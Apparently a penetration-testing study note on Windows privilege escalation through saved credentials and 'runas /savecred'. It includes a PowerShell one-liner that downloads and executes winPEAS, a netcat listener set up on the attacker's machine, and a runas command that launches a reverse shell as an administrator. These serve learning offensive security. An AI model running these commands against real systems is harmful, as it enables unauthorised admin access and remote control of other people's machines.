

Saved Creds
• Windows has a runas command which allows users to run commands with the privileges of other users.
• This usually requires the knowledge of the other user’s password.
• However, Windows also allows users to save their credentials to the system, and these saved credentials can be used to bypass this requirement.
0. WinPEAS generally check for service misconfigurations:
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe PS> (new-object System.Net.WebClient).DownloadFile("https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe", "$env:userprofile\desktop\winPEASany.exe");Invoke-Expression "$env:userprofile\desktop\winPEASany.exe quiet cmd windowscreds";Remove-Item -Path "$env:userprofile\desktop\winPEASany.exe";: how we can see the tool does not always work better verify manually(next step)
1. Check saved credentials manually
 2. We can use the saved credential to run any command as the admin user.
root@kali:/# nc -nvlp 53 # start a listener on the attacker
C:\> runas /savecred /user:<AdminUserTarget> <PathReverseShell>
Bibliography:
•
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#credentials-manager-windows-vault